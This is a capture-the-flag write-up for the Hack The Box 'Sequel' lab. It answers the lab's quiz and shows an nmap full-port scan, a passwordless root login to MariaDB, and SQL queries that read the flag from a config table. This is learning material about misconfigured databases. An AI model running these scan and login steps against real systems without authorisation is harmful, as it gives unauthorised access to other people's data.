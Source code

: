 # Sequel
## Q&A

We connect to the machine as usual by openvpn.

And here we got some questions to answer.

**What does the acronym SQL stand for?**
-*Structured Query Language*

**During our scan, which port running mysql do we find?**
-*3306*

**What community-developed MySQL version is the target running?**
-*MariaDB*

**What switch do we need to use in order to specify a login username for the MySQL service?**
-*"-u"*

**Which username allows us to log into MariaDB without providing a password?**
-*root*

**What symbol can we use to specify within the query that we want to display everything inside a table?**
-*

**What symbol do we need to end each query with?**
-*;*


## Actions

First we scan the machine at all ports

```sh
nmap -p- -Pn {IP}
```

And discover an open mysql port 

*3306/tcp open  mysql*

So we try to connect it

```sh
mysql -u root -h {IP}
```

And we successfully connect to the db
```
MariaDB [(none)]>
```

I tried to learn the help about 20 minutes and didn't get far, so I googled what commands are commonly used in MariaDB and found some (btw "help" didn't include them)

```sh
MariaDB [(none)]> show databases;
```

The console gives us a db list and one of them is called "htb" very familiar name
We need to choose it amongst the other, also let's see the tables

```sh
MariaDB [(none)]> use htb;
MariaDB [htb]>
MariaDB [htb]> show tables;
```

It gives us "config" and "users" tables, let's see what's hot in "config"

```sh
MariaDB [(none)]> select * from config;
```

After that we see some keys, one of them named *flag* with the flag value

I just paste the value and submit the flag ;)

## **Fin**


